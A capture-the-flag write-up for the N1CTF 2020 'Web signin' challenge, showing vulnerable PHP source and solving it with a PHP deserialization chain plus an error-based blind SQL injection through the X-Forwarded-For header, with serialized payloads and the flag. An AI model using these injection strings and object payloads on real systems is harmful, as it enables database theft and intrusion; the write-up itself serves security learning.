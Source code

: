 # Web signin

## Description

It was php serialization challenge, ended up having 78 solves.

## Challenge

```
class ip {
    public $ip;
    public function waf($info){
    }
    public function __construct() {
        if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
            $this->ip = $this->waf($_SERVER['HTTP_X_FORWARDED_FOR']);
        }else{
            $this->ip =$_SERVER["REMOTE_ADDR"];
        }
    }
    public function __toString(){
        $con=mysqli_connect("localhost","root","********","n1ctf_websign");
        $sqlquery=sprintf("INSERT into n1ip(`ip`,`time`) VALUES ('%s','%s')",$this->waf($_SERVER['HTTP_X_FORWARDED_FOR']),time());
        if(!mysqli_query($con,$sqlquery)){
            return mysqli_error($con);
        }else{
            return "your ip looks ok!";
        }
        mysqli_close($con);
    }
}

class flag {
    public $ip;
    public $check;
    public function __construct($ip) {
        $this->ip = $ip;
    }
    public function getflag(){
    	if(md5($this->check)===md5("key****************")){
    		readfile('/flag');
    	}
        return $this->ip;
    }
    public function __wakeup(){
        if(stristr($this->ip, "n1ctf")!==False)
            $this->ip = "welcome to n1ctf2020";
        else
            $this->ip = "noip";
    }
    public function __destruct() {
        echo $this->getflag();
    }

}
if(isset($_GET['input'])){
    $input = $_GET['input'];
	unserialize($input);
} 
```
## Solution

To solve this, we just have to reach `getflag` method with correct check property.

```
 public function getflag(){
    if(md5($this->check)===md5("key")){
    	readfile('/flag');
    }
    return $this->ip;
}
```
`waf` method's code is not in picture.

Also there is a mysql connection in `__toString` method of `ip` class. So maybe the correct key is there.

To dump the key, we have to somehow get sql injection.

Basically there is injection point in code:

```
$sqlquery=sprintf("INSERT into n1ip(`ip`,`time`) VALUES ('%s','%s')",$this->waf($_SERVER['HTTP_X_FORWARDED_FOR']),time());
```
Also this part of code is interesting.

```
if(!mysqli_query($con,$sqlquery)){
     return mysqli_error($con);
}else{
     return "your ip looks ok!";
}
```
This code returns mysql error or a `your ip looks ok!` based on the query result. 

The other interesting part is 

```
public function __wakeup(){
    if(stristr($this->ip, "n1ctf")!==False)
        $this->ip = "welcome to n1ctf2020";
    else
        $this->ip = "noip";
}
``` 

This means if our ip has `n1ctf` in it, then `welcome to n1ctf2020` is shown, otherwise `noip`.

So if we can put `n1ctf` in mysql error code, we have sql injection.

This injection does the job.

```
'&&(select extractvalue(rand(),concat(0x3a,((select "n1ctf" from n1ip where 1=2 limit 1)))))&&'
```

The query with our injection would return error with `n1ctf` in it if `1=1` and `null` otherwise.
 
## Exploit

We can generate our serialized object with this code.

```
$payload = new flag("A");
$payload->ip = new ip();
echo urlencode(urlencode( $input ));
```

Which is 

```
O%3A4%3A%22flag%22%3A2%3A%7Bs%3A2%3A%22ip%22%3BO%3A2%3A%22ip%22%3A1%3A%7Bs%3A2%3A%22ip%22%3BN%3B%7Ds%3A5%3A%22check%22%3BN%3B%7DA
```

Then in `X-Forwarded-For` header

```
'&&(select extractvalue(rand(),concat(0x3a,((select "n1ctf" from n1ip where 1=1 limit 1)))))&&'
```

The response contains `welcome to n1ctf2020` if `1=1` and `noip` otherwise.

Then you can get key with dumping database, which is `n1ctf20205bf75ab0a30dfc0c`.

Final payload is

```
O%3A4%3A"flag"%3A2%3A%7Bs%3A2%3A"ip"%3Bs%3A1%3A"A"%3Bs%3A5%3A"check"%3Bs%3A25%3A"n1ctf20205bf75ab0a30dfc0c"%3B%7DA
```

And the flag is <b>n1ctf{you_g0t_1t_hack_for_fun}</b>

